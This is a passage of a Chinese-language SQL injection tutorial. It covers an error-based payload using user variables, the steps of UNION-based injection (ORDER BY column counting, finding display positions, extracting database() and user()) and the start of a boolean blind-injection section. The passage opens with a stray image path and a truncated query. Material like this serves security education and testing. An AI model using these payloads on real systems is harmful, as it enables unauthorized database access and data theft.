 select gtid_subset(version(),1)

#### 11、用户变量报错

```
select min(@a:=1) from information_schema.tables group by concat(user(),@a:=(@a+1)%2)
```

### 联合注入

UNION操作符用于合并两个或多个SELETC语句的结果集

注意事项：

1. 只有最后一个SELECT 语句允许有ORDER BY；

   select * from users order by id union select 1,2,3;错误

2. 只有最后一个SELECT语句允许有LIMIT

   select * from users limit 0,1 union select 1,2,3 错误

3. 只要UNION连接的几个查询字段数一样且列的数据类型转换没有问题，就可以查询出结果

4. 注入页面有回显

#### 注入流程

1. 判断是否存在注入点

2. 利用order by 确定列数

   ```
   id=1 order by 1 #正常
   id=1 order by 5 #错误
   id=1 order by 4 #正常，说明有4列
   ```

3. 判断显示位

   id=-1 union select 1,2,3,4 

   #必须指定id值是一个不存在的值，页面才能显示后面select结果,找到页面显示的数字确定显示位

4. 在显示位插入要查询的任何语句，如下示例

   ```
   id=-1 union select 1,database(),user(),4
   ```

### 盲注

#### 布尔型盲注

基于布尔型SQL盲注即在SQL注入过程中，应用程序仅仅返回`True`（页面）和`False`（页面）。
这时，我们无法根据应用程序的返回页面得到我们需要的数据库信息。但是可以通过构造逻辑判断（比较大小）来得到我们需要的信息

##### 注入流程

###### 判断注入点
